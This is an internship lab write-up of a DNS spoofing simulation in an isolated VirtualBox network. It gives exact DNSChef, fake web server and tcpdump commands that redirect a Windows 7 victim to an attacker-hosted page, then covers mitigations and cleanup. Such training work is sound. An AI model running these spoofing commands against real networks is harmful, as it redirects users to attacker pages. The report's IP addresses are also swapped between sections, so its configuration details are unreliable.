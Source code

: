 # Task-6 — DNS Spoofing Attack Simulation (Brief)

**Internship:** Broskieshub.com
**Objective :** I set up an isolated VirtualBox lab (`labnet`) and simulated a DNS spoofing attack to demonstrate how DNS responses can be manipulated to redirect a victim to an attacker‑controlled page.

---

## Lab setup
- Attacker (Kali): `192.168.56.20`  
- Victim (Win7): `192.168.56.10`  
- Network: VirtualBox **Internal Network** `labnet` (isolated from public internet)

![](Screenshots/kali_net.png)

![](Screenshots/win7_net.png)

![](Screenshots/kali_ip.png)

![](Screenshots/win7_ip.png)

> Note: I used only command‑line tools available on the VMs. No GUI interfaces or additional installs were used during testing.

![](Screenshots/tools_confirm.png)

---

## Commands I ran (exact, in order)

**On Kali (attacker) — host fake site**
```bash
sudo mkdir -p /var/www/html/fake_example
echo "<html><body><h1>example.com — Internship Task 6 (Fake Page)</h1><p>This site is a lab demonstration used for DNS spoofing simulation.</p></body></html>" | sudo tee /var/www/html/fake_example/index.html
cd /var/www/html/fake_example
sudo python3 -m http.server 80
````

![](Screenshots/fakepage_server.png)

![](Screenshots/fakepage_browser.png)

**On Kali — start DNSChef (CLI) to spoof example.com**

```bash
# bind to all interfaces and spoof example.com to 192.168.56.20
sudo dnschef --interface 192.168.56.10 --fakeip 192.168.56.20 --fakedomains example.com
```

![](Screenshots/dnschef-running.png)

**On Kali — capture DNS traffic for evidence**

```bash
sudo tcpdump -i eth0 -n udp port 53
```

![](Screenshots/dns-tcpdump.png)

**On Windows 7 (victim) — flush DNS & test**

```cmd
ipconfig /flushdns
nslookup example.com
# then open http://example.com in the browser
```

![](Screenshots/win7_flushdns.png)

---

## What happened
* From the victim (`192.168.56.20`) I ran `nslookup example.com` and received the spoofed A record `192.168.56.10` (attacker).
* Visiting `http://example.com` on the victim loaded the attacker‑hosted fake page, confirming successful DNS spoofing in the isolated lab.

![](Screenshots/attack_fakepage_in_win7.png)

---

## Short reflection 
> Performing this controlled lab helped me understand how DNS resolution can be abused to transparently redirect users to malicious sites. I observed that a single forged DNS reply can make a victim visit an attacker page, and that packet capture and DNS logging are essential evidence for analysis. Mitigations I noted include DNSSEC, encrypted DNS (DoH/DoT), and strict TLS certificate validation.

---

## Ethics & cleanup

* All testing was performed only on an isolated internal VirtualBox network (`labnet`).
* After testing I stopped the HTTP server and dnschef and removed the test content:

```bash
# on Kali
sudo pkill -f python3
sudo pkill dnschef || true
sudo rm -rf /var/www/html/fake_example
```
---
End of report.